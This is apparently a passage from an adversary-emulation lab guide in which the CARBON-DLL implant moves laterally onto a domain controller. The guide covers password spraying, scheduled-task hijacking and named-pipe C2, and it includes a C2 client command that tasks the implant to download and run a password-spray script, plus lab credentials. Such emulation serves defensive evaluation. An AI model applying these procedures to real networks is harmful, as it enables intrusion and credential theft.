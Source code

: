 CARBON-DLL downloads a batch script which uses sprays several of the discovered
domain admin accounts with weak passwords, one of which successfully mounts the
`C:\` drive of the domain controller.

In preparation for lateral movement, CARBON-DLL downloads a second copy of
its installer and moves it to the `System32` directory of the domain controller.
Then, the `Customer Experience Improvement Program`'s `Consolidator` scheduled
task is modified to execute the CARBON-DLL installer.

Lastly, CARBON-DLL sends a request to run the modified scheduled task,
achieving lateral movement to and execution on the domain controller.

By this point, Frieda has logged into the domain controller to start a browser
process as part of legitimate user activity, which the new CARBON-DLL implant
injects into to begin kicking off its communication with the C2 server.

Rather than communicate directly to the C2 redirector over HTTP, the new CARBON-DLL
implant uses peer-to-peer communication over named pipes through the first
CARBON-DLL implant on `hobgoblin (10.20.20.102)`. Discovery commands are then executed,
leading to the identification of an Apache web server and the workstation for
the administrator of the Apache server, `Adalwolfa`.

Peer-to-peer communication will occur over the `dsnap` named pipe on both participating hosts.

---

### ☣️ Procedures

:arrow_right: Return to your RDP session to `hobgoblin (10.20.20.102)` as
`Gunter`. Minimize (do not close) the `hobgoblin (10.20.20.102)` RDP window.

* Start a new RDP session to `bannik (10.20.10.9)` as `Frieda`:

| Username   | Password |
| :--------: | :---------------: |
| skt\Frieda  | Password3! |

* Close any spurious windows

* Open up Microsoft Edge (search for `Edge` if not in toolbar, **do not use Edge Beta**), decline all first-run start up options, and browse to `https://brieftragerin.skt.local/owa`

:arrow_right: Wait 1 minute and return to your Kali control server terminal

* Task CARBON-DLL to download and execute the batch script to spray weak
passwords against the domain admin accounts and attempt to mount the `C$` drive of the DC.

```bash
./evalsC2client.py --set-task 9b5ef515  '{"id": 1, "payload": "password_spray.bat", "payload_dest": "C:\\Windows\\Temp\\winsas64.bat", "cmd": "C:\\Windows\\Temp\\winsas64.bat"}'
```

* :heavy_exclamation_mark: Verify that the script successfully sprays `Frieda`'s password by checking the task output.
You should see task output which states the following. It should take approximately 5 minutes to complete:
>
* > ```text
    > The command completed successfully.
    >
    > frieda:Password3! SUCCESS
    > ```
